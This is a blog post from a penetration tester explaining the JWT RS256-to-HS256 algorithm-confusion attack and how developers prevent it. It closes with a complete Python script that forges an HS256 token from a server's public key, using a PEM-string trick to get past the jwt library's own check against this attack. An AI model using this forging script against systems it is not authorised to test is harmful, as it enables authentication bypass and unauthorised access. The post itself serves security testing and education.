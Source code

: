 ```yaml
---
layout: post
title: "JWT: Signature-vs-MAC attacks"
tags: ["security"]
date: 2019-05-16
---
```


During a recent pen-test I stumbled upon a [JSON Web Token](https://en.wikipedia.org/wiki/JSON_Web_Token)(in short: JWT) based authorization scheme. JWTs consist of three parts: header, payload and verification information. The initial header part contains the name of the algorithm that will later be used to generate the verification part of the JWT. This is dangerous as an attacker can change this information and thus (maybe) control what scheme will be used for verification by the server.

Two commonly used schemes are RS256 ([digital signature](https://en.wikipedia.org/wiki/Digital_signature)-based algorithm) and HS256 ([MAC](https://en.wikipedia.org/wiki/Message_authentication_code)-based algorithm). An insecure option would be the NULL-scheme: do not include any verification information at all --- sadly the NULL scheme was not accepted by the target web server.

There is a slight change of a "type confusion"-alike attack against JWT that can occur if the server implementation uses a JWT verification library by just calling code similar to `verify(token, key)` and assumes that only digitally-signed tokens will be used. In this case, the second parameter `key` will always be the public key that will be sued for verification (digital signatures use a private key for creating the signature, and the corresponding public key for verifying the created signature).

An attacker can now retrieve the public key, create a new MAC-based token and use the public key for creating the verification part of the newly created token. In a MAC-based scheme only a secret key is needed to create the verification information and the attacker thus uses the public key (of the digital signature) as secret key for the MAC. If this token is now passed to the `verify` operation on the server, the library would identify the to-be-used scheme from the token (which was set by the attacker to be `HS256` indicating the MAC-scheme). The verification library will then use the second parameter as input for creating the MAC. As this is the public key, the created MAC is the same as the MAC passed by the attacker, both match and the server will accept the forged token. What should have the application developer done better? If a token is accepted by the server, it must always check if the used algorithm is the same as the developer originally assumed to be used.

In theory, this should be easy to test but I didn't find any working tool for that. So I scripted it myself in python. To use it, you have to configure the following in the source code:

* `jwks_url`: where to get the public key info from. [JWKS](https://auth0.com/docs/jwks) is used to publicly distribute key information by many services.
* `operation_url`: an HTTP GET operation that users a JWT-token for authorization
* `token`: a valid JWT for the configured operation
* `audience`: the audience that the token was configured for

The script does the following:

* download a JWKS configuration file and extract the public key parameters. Create a pem-representation out of that.
* verify that the configured token can be validated with the extracted public key
* perform the configured operation with the valid token and output both the resulting HTTP status code as well as the resulting document (it is assumed that this will be a JSON document)
* create a new token based upon the configured token. In this token the token type will be changed to `HS256`; a MAC (based upon the public key) will be computed and used as verification information for the token.
* execute the configured operation again with the modified token and output the HTTP status code as well as the returning document.

As the returning status code (with the modified token) was 401 (authorization denied) the server-side authorization checks of the target web-server seem to work and it thus was not vulnerable against the signature-vs-mac confusion attack. If it would have been worked, identical HTTP status codes and similar result documents should have been produced by both HTTP calls (with the original as well as with the modified token).

Hope that helps with your pen-testing, feel free to adapt the python script:


~~~ python
import jwt
import requests

from jwcrypto import jwk
from cryptography.x509 import load_pem_x509_certificate
from cryptography.hazmat.backends import default_backend

# configuration
jwks_url = "https://localhost/oauth2/.well-known/jwks.json"
operation_url = "https://localhost/web/v1/user/andy"
audience = "https://localhost"
token = "eyJh..."

# retrieves key from jwks
def retrieve_jwks(url):
    r = requests.get(url)
    if r.status_code == 200:
        for key in r.json()['keys']:
            if key['kty'] == "RSA":
                return jwk.JWK(**key)
        print("no usable RSA key found")
    else:
        print("could not retrieve JWKS: HTTP status code " + str(r.status_code))

def extract_payload(token, public_key, audience):
    return jwt.decode(token, public_key, audience=audience, algorithms='RS256')

def retrieve_url(url, token):
    header = {'Authorization' : "Bearer " + token}
    return requests.get(url, headers=header)

# call the original operation and output it's results
original = retrieve_url(operation_url, token)
print("original: status: " + str(original.status_code) + "\nContent: " + str(original.json()))

# get key and extract the original payload (verify it during decoding to make
# sure that we have the right key, also verify the audience claim)
public_key = retrieve_jwks(jwks_url).export_to_pem()
payload = extract_payload(token, public_key, audience)
print("(verified) payload: " + str(payload))

# create a new token based upon HS256, cause the jwt library checks this
# to prevent against confusion attacks.. that we actually try to do (:
mac_key = str(public_key).replace("PUBLIC", "PRIVATE")
hs256_token = jwt.encode(payload, key=mac_key, algorithm="HS256")

# call the operation with the new token
modified = retrieve_url(operation_url, str(hs256_token))
print("modified: status: " + str(modified.status_code) + "\nContent: " + str(modified.json()))
~~~

